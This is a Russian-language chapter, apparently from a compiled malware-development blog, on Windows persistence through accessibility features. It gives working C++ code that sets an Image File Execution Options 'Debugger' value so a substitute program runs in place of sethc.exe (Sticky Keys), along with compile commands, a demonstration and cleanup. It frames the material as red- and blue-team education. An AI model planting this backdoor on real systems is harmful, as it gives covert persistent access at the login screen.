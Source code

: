 \newpage
\subsection{78. Разработка вредоносного ПО: закрепление (persistence) - часть 12. Функции доступности. Простой пример на C++.}

﷽

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

Этот пост является результатом моего собственного исследования ещё одного метода закрепления вредоносного ПО на уровне администратора: через функции доступности Windows.    

В одном из [предыдущих](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) постов я писал о закреплении через Image File Execution Options. В одном из примеров PoC мы просто создавали отладчик для процесса-жертвы в этом ключе реестра:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

После этого единственное, что требовалось, - разместить вредоносное приложение в `System32`.    

### практический пример. sethc.exe

Сегодня я просто заменю наш целевой процесс на `sethc.exe`. Но что такое `sethc.exe`? Этот исполняемый файл отвечает за залипающие клавиши. Нажатие клавиши `Shift` `5` раз включает залипающие клавиши:    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Вместо легитимного `sethc.exe` будет запущен поддельный `sethc.exe`, который, как обычно, для простоты просто вызывает messagebox "meow". Исходный код довольно похож (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

окно сообщения Meow-meow:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает на практике. Сначала проверим ключи реестра:        

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

Затем, компилируем наш `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    

Запустим и снова проверим реестр:    

> **Для замены системного бинарного файла Windows требуются права администратора**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Наконец, нажмем `Shift` `5` раз:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

Посмотрим на свойства `hack.exe`:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Отлично! =^..^=    

После завершения эксперимента, для очистки, выполните:     

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### заключение

Функции доступности Windows включают набор утилит, доступных с экрана входа в систему (например, залипающие клавиши). Некоторые из этих функций и их соответствующие триггеры:

**1. Диспетчер специальных возможностей**     
- `C:\Windows\System32\Utilman.exe`     
- Триггер: `Windows + U`      

**2. Экранная клавиатура**     
- `C:\Windows\System32\osk.exe`      
- Триггер: клик по экранной клавиатуре     

**3. Экранная лупа**   
- `C:\Windows\System32\Magnify.exe`     
- Триггер: `Windows + =`        

**4. Экранный диктор**       
- `C:\Windows\System32\Narrator.exe`    
- Триггер: `Windows + Enter`    

**5. Переключение экрана**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Триггер: `Windows + P`    

Эти функции Windows стали широко известны после того, как группы APT использовали их для получения бэкдора на целевых компьютерах. Например, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) и [APT41](https://attack.mitre.org/groups/G0096/) использовали залипающие клавиши.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит инструмент в арсенал красных команд.    

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
